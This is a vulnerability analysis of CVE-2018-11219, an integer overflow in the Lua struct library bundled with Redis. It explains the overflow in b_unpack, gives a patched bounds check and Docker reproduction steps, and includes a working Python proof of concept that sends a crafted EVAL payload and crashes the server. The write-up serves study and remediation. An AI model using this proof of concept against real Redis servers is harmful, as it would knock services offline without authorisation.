


# CVE-2018-11219 CWE-190 Redis integer overflow

## Vulnerability Background
Redis embeds Lua and historically shipped a `struct` library for packing and unpacking binary data. In affected releases, arithmetic used to calculate field sizes can overflow when a script supplies an extreme numeric value, defeating the subsequent bounds check and corrupting memory.
## Vulnerability Mechanism
**Integer Overflow**: In the Lua subsystem, the `struct` library has a section for handling integers, and attackers can trigger integer overflow by passing in very large values. Specifically, when Redis processes incoming structured data, it fails to perform effective boundary checks for very large integers, resulting in integer value overflow and triggering memory access errors.

**Unverified Input**: Without effectively checking input, malicious attackers can execute requests with malicious Lua scripts using `EVAL` commands, with certain parameters in the script potentially triggering integer overflows, thereby affecting Redis's runtime behavior.

## Vulnerability Location
At line 293** of the **deps\lua\src\lua_struct.c** file, the main function of the `b_unpack` function is to unpack (parse) the corresponding data type from binary data according to the specified format string, and push the parsing result onto the Lua's stack. At line **298**, `pos` get the starting position (default is 1) from the third parameter of the Lua stack and convert it to an index starting from 0. `pos` is obtained through `lual_optinteger`, and this function returns an integer and then subtracts 1. This step is to convert Lua's 1-based index to C's 0-based index.

When processing formatting characters is `'c'`, if `size` is zero and no size was previously specified, the function will try to take a numeric value from the stack as the size. If you can control `size` to zero and set parameters b, b, b, h, etc. to control the top element of the stack, then subsequent `pos+size` addition operations may exceed the representable range, causing overflow and eventually winding back to a smaller number to pass the check. At this point, the database mistakenly believes there is enough memory and continues executing the `lua_pushlstring`, but in reality, it is reading a very long string, applying an excessively long offset `size` to the `data+pos` pointer, which ultimately causes the error. (See POC analysis for specific processes.)

```c
static int b_unpack (lua_State *L) {
    // Retrieves the format string from the first parameter of the Lua stack
  const char *fmt = luaL_checkstring(L, 1);          
  size_t ld;
    // Obtain a binary data string from the second parameter of the Lua stack and obtain its length via &ld
  const char *data = luaL_checklstring(L, 2, &ld);   
    // Obtain the starting position (default is 1) from the third parameter of the Lua stack and convert it to an index starting from 0
  size_t pos = luaL_optinteger(L, 3, 1) - 1;         
  while (*fmt) {
    int opt = *fmt++;
    size_t size = optsize(L, opt, &fmt);             // Get the size of the current option
    pos += gettoalign(pos, &h, opt, size);           // Adjust alignment
    luaL_argcheck(L, pos+size <= ld, 2, "data string too short");  // Border checks
      switch (opt) {
      case 'b': case 'B': case 'h': case 'H':
      case 'l': case 'L': case 'T': case 'i':  case 'I': {  /* integer types */
        int issigned = islower(opt);
        lua_Number res = getinteger(data+pos, h.endian, issigned, size);
        lua_pushnumber(L, res);
        break;
      }
    // ... Other processing logic ...
    case 'c': {
      if (size == 0) {                                // Handling dynamic length 'c0'
        if (!lua_isnumber(L, -1))
          luaL_error(L, "format `c0' needs a previous size");
        size = lua_tonumber(L, -1);                   // Get size from the top of the stack
        lua_pop(L, 1);
        luaL_argcheck(L, pos+size <= ld, 2, "data string too short");  // Check the boundaries again
      }
      lua_pushlstring(L, data+pos, size);            // Push string
      break;
    }
    // ... Other cases ...
    pos += size;                                     // Update location
  }
  // ... Return results ...
}
```

## Remediation
Change the statement to:

```c
luaL_argcheck(L, size <= ld && pos <= ld - size, 2, "data string too short");
```

Check the size of the `size` separately and use `ld - pos` to check the `poc` to prevent addition overflow and avoid the sum exceeding the range and looping into smaller numbers that could cause subsequent overflow. `n` variables are added to track and return the number of values actually pushed into the Lua stack by the function, avoiding vulnerabilities or logical errors caused by stack clutter.

## Affected Versions
Redis below 3.2.12, 4.x below 4.0.10, and 5.x below 5.0 RC2

## Environment Setup
Start the Docker environment, Redis version 4.0.9



## Vulnerability Reproduction
1. Enter the container command line, go to the root directory, run CVE-2018-11219-POC.py, Redis crashes

```bash
python2 CVE-2018-11219-POC.py
```



2. Check the container log:

- `crashed by signal: 11`: Redis crashes are caused by signal `11` (usually defined as segmentation faults), indicating the program is trying to access an invalid memory address and causing the crash.
- The error in the logs involves `malloc.c`, which is the memory allocation code in the standard library. The crash occurs in the `sysmalloc` function, which is used for dynamic memory allocation. The failed assertions shown in the logs indicate that Redis encountered inconsistent memory states (possibly memory corruption) when handling memory allocation.
- The log's mention of failed assertions (`Assertion failed`) indicates that Redis encountered an error during memory allocation, possibly due to incorrect size or address of the attempted memory block, resulting in memory corruption.

```bash
docker logs redis-4.0.9
```


## PoC Analysis

```python
import socket
import hashlib

#3rd party
import redis  #pip install

server  = '127.0.0.1'
port    = 6379

def send_to_redis(server, port, data, timeout=2):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    s.connect((server, port))
    try:
        s.send(data)
    except socket.timeout:
        print 'Unable to connect to target ; returning'
        return None
    s.close()


def main():
    # Constructs malicious Lua scripts to trigger vulnerabilities
    payload = 'return struct.unpack(\'bc0\', \'\xff\')'

    # Generates a unique key for storing the payload
    h = hashlib.sha1()
    h.update(payload)
    key = h.hexdigest()

    # Store the payload on the Redis server
    r = redis.StrictRedis(host=server, port=port)
    r.set(key, payload)

    # Construct another payload to retrieve and execute the previously stored payload from the Redis server
    payload = 'eval "return loadstring(redis.call(\'get\', KEYS[1]))()" 1 %s\n' % key

    # Send the payload to the Redis server to trigger the vulnerability
    send_to_redis(server, port, payload)


if __name__ == '__main__':
    main()
```

In PoC code, the vulnerability trigger statement `struct.unpack('bc0', '\xff')` attempts to unpackage data from binary data `'\xff'` based on formatted strings `'bc0'`. A signed byte `b` uses `getinteger` method to read the `0xFF` value of -1 and pushes it to the top of the stack using `lua_pushnumber` method. `c0` requires reading a string of length 0, i.e., a `size=0`. At this point, the length needs to be obtained from the top of the stack, which stores the value of this `b` and finally `size = -1`. In the code, `size` is a `size_t` type (unsigned integer). When -1 is assigned to a `size_t`, it is converted to a very large value. Later, when judging `pos+size`, due to addition overflow, it may misjudge that the data area is sufficient, and eventually it rounds into a smaller number to pass the check. At this point, the database mistakenly believes there is enough memory and continues executing `lua_pushlstring`, but in reality, it is reading a very long string and applying an excessively long offset `size` to the `data+pos` pointer, ultimately causing errors

## References
[An Integer Overflow issue was discovered in the struct... · CVE-2018-11219 · GitHub Advisory Database](https://github.com/advisories/GHSA-pqpx-gpvg-4m34)

[Redis Lua scripting: Several security vulnerabilities fixed - --- Redis Lua scripting: several security vulnerabilities fixed -](https://antirez.com/news/119)

[trigger.py](https://gist.github.com/antirez/82445fcbea6d9b19f97014cc6cc79f8a)

[Security: update Lua struct package for security. · antirez/redis@1eb08bc](https://github.com/antirez/redis/commit/1eb08bcd4634ae42ec45e8284923ac048beaa4c3)
